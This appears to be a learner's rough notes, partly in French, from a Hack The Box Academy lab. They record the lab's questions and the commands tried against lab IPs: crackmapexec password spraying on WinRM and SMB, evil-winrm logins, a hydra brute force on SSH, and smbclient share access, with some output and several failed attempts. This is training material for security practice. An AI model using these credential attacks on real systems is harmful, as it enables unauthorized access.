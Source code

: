   
  

Voir le contenu partage SMB : 

smbclient -U user \\\\10.129.42.197\\SHARENAME

  
  

Target: 10.129.220.247  
Life Left: 119 minutes 

Cheat Sheet

[Download VPN Connection File](https://academy.hackthebox.com/vpn/key)

+ 0  Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

  

WinRM uses the TCP ports 5985 (HTTP) and 5986 (HTTPS).

sudo apt-get -y install crackmapexec

crackmapexec winrm 10.129.42.197 -u user.list -p password.list

  

evil-winrm -i 10.129.220.247 -u user -p password

  

  

 Submit

+ 0  Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

crackmapexec winrm 10.129.202.136 -u user.list -p password.list

SMB         10.129.202.136  5985   WINSRV           [*] Windows 10.0 Build 17763 (name:WINSRV) (domain:WINSRV)

HTTP        10.129.202.136  5985   WINSRV           [*] http://10.129.202.136:5985/wsman

WINRM       10.129.202.136  5985   WINSRV           [-] WINSRV\user.list:password.list

rien

sudo gem install evil-winrm

evil-winrm -i 10.129.202.136 -u user -p password

  

rien

hydra -L user.list -P password.list ssh://10.129.202.136

rien

crackmapexec smb 10.129.202.136 -u "user" -p "password" --shares

  

  
